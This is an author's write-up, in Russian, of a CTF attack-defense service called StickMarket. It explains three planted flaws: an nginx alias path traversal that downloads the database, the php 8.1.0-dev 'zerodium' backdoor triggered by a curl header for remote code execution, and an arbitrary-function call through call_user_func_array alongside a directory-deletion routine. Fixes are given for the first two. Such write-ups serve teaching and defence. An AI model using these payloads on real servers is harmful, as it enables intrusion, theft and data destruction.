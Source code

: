 # Авторский writeup на сервис StickMarket

## Описание

Сервис StickMarket представлял собой подобие онлайн-площадки для продажи "палок истины".
Пользователь мог загрузить свою палку, купить чужую (при этом после покупки рендерилась информация "скрытая внутри" самой палки). Так же можно было получить приветсвенный бонус в 100 единиц.

Для загрузки новой палки на маркет необходимо было создать zip архив, содержащий в себе не более двух файлов:
- обязательный файл stick.yml с полями:
    `nameOfStick` -> название палки (по умолчанию `Typical stick`)
    `price` -> цена палки (по умолчанию 1000)
    `description` -> описание (по умолчанию 'Best. Of. The. Best. Stick. Of. Truth.')
    `author` -> автор (по умолчанию `Kartman`)
    `phraseOfTruth` -> собственно фраза, ради получения которой "покупалась палка" (по умолчанию `Truth is lie.`). Тут как раз хранились флаги 
    `image` -> имя jpg картинки товара (по умолчанию `null`. В случае отсутствия данного параметра картинка подгружалась из папки `static/stick.jpg`)

- необязательный файл вида *.jpg (проверялось только расширение через pathinfo)

В случае ошибки валидации полей yaml/присутствия больше двух файлов - сервис сообщал о ошибке.
Чекер проверял корректность сервиса через добавление новой палки на маркет.

## Уязвимости

### nginx alias path traversal

Если обратить внимание на конфиг nginx - видно что для нескольких папок были созданы alias'ы:

```
    location /images {
      alias /var/www/html/stick-market/images/;
    }

    location /static {
      alias /var/www/html/stick-market/static/;
    }
```

В данном случае ошибка заключалась в неправильном указании имени папки (без `/` в конце), что позволяло выполнить загрузку произвольных файлов из системы, например самым интересным файлом являлась БД:

`http://localhost/images../code/market.db`

#### Фикс 

Закрыть уязвимость можно было просто добавив `/` в конце имени папки:

```
    location /images/ {
      alias /var/www/html/stick-market/images/;
    }

    location /static/ {
      alias /var/www/html/stick-market/static/;
    }
```

### php8.1.0-dev backdoor 

Бекдор добавленный в php версии 8.1.0-dev и позволяющий выполнить произвольный код в системе - то есть получить прямую RCE в контейнер.

Пример вызова:
`curl -H "User-Agentt: zerodiumsystem('id');" 'http://localhost:443'`

#### Фикс 

Достаточно было перевести обработку данной папки (`/var/www/html/hello-world`) за nginx (т.к. он использует рhp-fpm).

### Вызов функции UpdateBonus через call_user_func_array

Данная уязвимость не полностью отработала на игре из-за криво пересобранного сервиса.

В файле func.php присутствовал следующий вызов:

```
if (isset($_GET['check']) && is_callable($_GET['check'])) {
    $params = $_GET;
    unset($params['check']);
    call_user_func_array($_GET['check'], $params);
}
```

А так же была интересная функция, позволяющая обнулить информацию о получении бонуса в БД:

```
function UpdateBonus($username) {
    try {
        $db = ConnectDatabase();
        $stmt = $db->prepare("UPDATE users SET bonus=0 WHERE username=:username");
        $stmt->bindValue(':username', $username);
        $stmt->execute();
        return true; 
    } catch (Exception) {
        return false;
    } 
}
```

Что позволяло нам сделать следующий вызов:

```
http://localhost/func.php?check=UpdateBonus&param=user
``

Но так как при финальной пересборке образа мной была допущена ошибка - при sql запросе вместо `:username` биндился `:uuid`, что не позволяло напрямую использовать данный вызов. Но была еще одна интересная фукнция, позволяющая закарраптить сервис противника:

```
function deleteDirectory($dir) {
    if (is_dir($dir)) {
        $objects = scandir($dir);
        foreach ($objects as $object) {
            if ($object != "." && $object != "..") {
                if (is_dir($dir . '/' . $object)) {
                    deleteDirectory($dir . '/' . $object);
                } else {
                    unlink($dir . '/' . $object);
                }
            }
        }
        rmdir($dir);
    }
}
```